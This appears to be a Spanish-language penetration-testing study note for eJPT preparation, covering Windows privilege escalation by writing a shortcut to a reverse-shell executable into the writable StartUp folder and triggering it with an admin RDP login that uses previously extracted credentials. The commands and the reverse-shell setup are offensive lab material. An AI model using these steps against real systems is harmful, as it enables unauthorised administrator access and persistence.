 
- Usando accesschk.exe, tenga en cuenta que el grupo BUILTIN\Users puede escribir archivos en el directorio StartUp:

```
C:\PrivEsc\accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"

```
- Usando cscript, ejecute C:\PrivEsc\CreateShortcut.vbs script que debería crear un nuevo acceso directo a su ejecutable reverse.exe en el directorio StartUp:

```
cscript C:\PrivEsc\CreateShortcut.vbs
```

- Inicie un oyente en Kali y luego simule un inicio de sesión de administración usando PDR y las credenciales que extrajo anteriormente:

```
rdesktop -u admin 10.10.94.6
```

- Un shell que se ejecuta como administrador debe conectarse nuevamente a su oyente.

enlace:
[[Preparacion-Ejpt]]
[[Herramientas]]
[[Generate a Reverse Shell Executable]]
